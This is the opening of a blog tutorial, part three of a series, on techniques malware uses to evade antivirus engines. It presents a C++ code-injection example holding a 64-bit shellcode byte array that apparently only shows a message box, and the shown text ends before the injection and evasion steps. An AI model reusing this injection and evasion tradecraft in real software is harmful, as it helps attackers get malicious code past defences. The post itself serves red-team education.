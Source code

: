 ```yaml
---
title:  "AV engines evasion techniques - part 3. Simple C++ example."
date:   2021-12-25 10:00:00 +0600
header:
  teaser: "/assets/images/34/2021-12-26_16-05.png"
categories:
  - tutorial
tags:
  - injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![av](/assets/images/34/2021-12-26_16-05.png){:class="img-responsive"}    

This is a third part of the tutorial and it describes an example how to bypass AV engines in simple C++ malware.   

[first part](/tutorial/2021/09/04/simple-malware-av-evasion.html)    
[second part](/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    

In this post we will try to implement some techniques used by malicious software to execute code, hide from defenses.    

Let's take a look at example C++ source code of our malware which implement [classic code injection](/tutorial/2021/09/18/malware-injection-1.html):    
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";
```